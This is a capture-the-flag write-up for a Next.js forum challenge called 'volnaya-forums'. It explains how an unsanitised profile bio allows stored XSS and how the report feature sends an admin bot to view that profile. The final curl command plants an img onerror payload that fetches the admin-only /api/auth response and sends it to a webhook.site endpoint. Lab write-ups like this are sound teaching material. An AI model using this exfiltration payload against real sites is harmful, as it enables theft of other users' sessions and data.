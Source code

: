 +++
title = 'HTB Global Cyber Skills Benchmark 2025 - web/volnaya-forums'
date = 2025-05-27T21:44:01-04:00
draft = false
+++


Volnaya Forums is a Next.js web application simulating a forum platform. The goal was to obtain the flag, which is only accessible to the admin user via the /api/auth endpoint.

We are first presented with a login page, where we can create a new user and login

![volnaya1](/images/volnaya1.png)

The forum is filled with posts, and we are not allowed to post but we can report posts.

![volnaya2](/images/volnaya2.png)

Also, we have a user profile:

![volnaya3](/images/volnaya3.png)



The flag is served at session.user.username === 'admin'
/api/auth and only returned when `session.user.username === 'admin'`. There is a Puppeteer bot ( bot.ts ) that logs in as admin and visits URLs submitted via the
report system. Report System: Users can submit reports that trigger the admin bot to visit specified URL's. 


In profile, the description field is not sanatized and vulnerable to xss:


```html
    <div
        className="prose"
        dangerouslySetInnerHTML={{ __html: profile.bio }}
    />
) : (
    <p className="text-muted-foreground">Not specified</p>
)}
```

To exploit, first we can inject XSS into our profile. Next, we create a report and have the admin bot vist our profile. Our XSS payload will steal the admin bots flag.

After trying a few payloads, this one worked:

`<img src=x onerror=alert(1)>`

I used webhook.site to create an endpoint for recieving the stolen flag.

The final payload:

```bash
curl -X POST http://94.237.58.230:49969/api/profile \
 -H "Content-Type: application/json" \
 -H "Cookie: session=Fe26.2*1*60aea579f24f916652493cefdfd05c13df3cf23cc91ebd01ca1bf4e882112db5*KXrgy19_cNK5pt7UJcnxOg*_8hraS_UOF9aC-m5IHokrEHVVmZDRPg_r1NN23sYtAlgoWZNgwvreSwZmpq8w-zgw0wP9m8G0REU1mlIMsK_dtPpLfic6fdHOx2SNfG0erI*1749402914006*274696f327feaa70b1901c0fb2a903777f01fd7ee5efdcb48c59c96211107dcb*X9KmEZsSFFoh5exBpivNcilsA5kaYeolIWu7I-57KJs~2" \
 -d '{"username":"admin","email":"dfoo@test.com","bio":"<img src=x onerror=\"fetch('\''/api/auth'\'').then(r=>r.text()).then(d=>fetch('\''https://webhook.site/f2ad00ee-36fa-46f6-84ed-ffa208392a0a?flag='\''+encodeURIComponent(d)))\">"}'
 ```

 We then trigger the bot to visit our profile by creating a report, and get the flag.